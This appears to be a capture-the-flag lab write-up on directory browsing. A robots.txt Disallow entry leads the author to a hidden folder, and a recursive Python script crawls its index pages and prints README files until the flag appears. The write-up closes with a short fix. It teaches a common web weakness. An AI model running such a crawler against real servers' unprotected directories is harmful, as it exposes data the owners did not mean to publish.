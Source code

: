 # Directory browsing attack

### Introduction
Directory browsing involves trying to access and read files that are stored in directories on a web server.

### Procedure
After reading `robots.txt`, we can notice that this file contains `Disallow: /.hidden` to notify crowlers to not read from this directory. This method, doesn't prevent us from scraping content from this directory so we are going to write a script in python that will display content from every file in that folder.

### Program
First things first, we start by writing a function that will return us the content of a file in the server.
```` python
def try_robots(path: str = ""):
	url = f'http://192.168.56.101/.hidden{path}'

	response = requests.get(url)

	return response.text
````

Then, we are going to use that function to get the content in each index page, which will inform us about directories and files in directory we are checking. We will then parse the index into a list of directories and files.
``` python
def filter_index(path: str = "/"):
	text = try_robots(path)

	lines = text.split('\n')

	links = [x for x in lines if x.startswith('<a href=')]
	links.reverse()

	for link in links:
		if type(link) == str:
			start_index = link.find('"') + 1
			end_index = link.find('"', start_index + 1)
			if start_index != -1 and end_index != -1:
				file = link[start_index:end_index]
				new_path = path + file
				if file != "README":
					filter_index(new_path)
				else:
					text = try_robots(new_path)
					print(f"[{new_path}]: ", text)
					if len(text) > 40:
						exit()
```

If a value of that list is `README`, we will get its content using `try_robots()` function of earlier and if it contains more than 40 characters we will know that it contains the flag we are looking for.

### How to fix
In order to fix this, it is recommended to prevent the access to this directory and not just disabling it on robots.txt.